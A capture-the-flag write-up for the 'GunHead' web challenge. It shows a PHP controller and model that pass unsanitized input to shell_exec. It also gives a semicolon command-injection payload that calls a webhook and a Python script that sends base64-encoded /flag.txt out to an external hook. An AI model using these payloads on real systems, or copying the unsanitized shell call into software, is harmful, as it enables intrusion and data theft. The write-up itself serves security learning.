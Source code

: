## GunHead :: Easy
#### Scenario 

```
During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable.
With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently
 needs to take it down.
```

#### Solve

![](/images/gunhead-source-tree.png)

Our mission in this challenge is to disable the **Gunhead** combat robot.

Here is the landing page:
![](/images/gunhead_index.png)

While exploring the application, I could not help but notice the terminal icon on the sidebar of the **Gunhead** view.

This icon opens some kind of web based terminal containing certains commands.
![](/images/gunhead_commands.png)

Let's take a look at the source !

The application is written in PHP, and seems to use the MVC design pattern.
This means that we have to go look at the controller to understand which function is bound to which endpoint.
Following this will lead us to the executed code when we trigger this endpoint.

`ReconController.php`:
```php
<?php
class ReconController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']); // WE initiate a ReconModel instance.

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
}
```

Let's go look at the source for the `ReconModel` object.

```php
<?php
#[AllowDynamicProperties]

class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```

Here we can see that the object execute a raw shell command with the unsanitized user input.

This means that command injection is possible.
We can obtain command execution on the server this way.

Let's craft our exploit:

![](/images/command_injection.png)

We can inject a command by terminating the ping command using a semicolon.
We can then add our own command which will be executing, wether the ping command fails or succeeds.

```bash
;curl https://webhook.site/3578d2dc-d2dd-468b-a8c9-9bda1f8d1281;
```

#### Exploit Script

```python
#!/usr/bin/env python3
import requests

TARGET = "http://localhost:1337"
HOOK = "<your-hook>"
PING_ENDPOINT = "/api/ping"
PAYLOAD = {"ip": f";curl {HOOK}/$(cat /flag.txt|base64 -w0);"}


if __name__ == "__main__":
    print("[*] Exploitating command injection in Gunhead ...")
    requests.post(TARGET + PING_ENDPOINT, json=PAYLOAD)
```

Once you ran this script, check your hook and you can extract the base64 encoded flag.



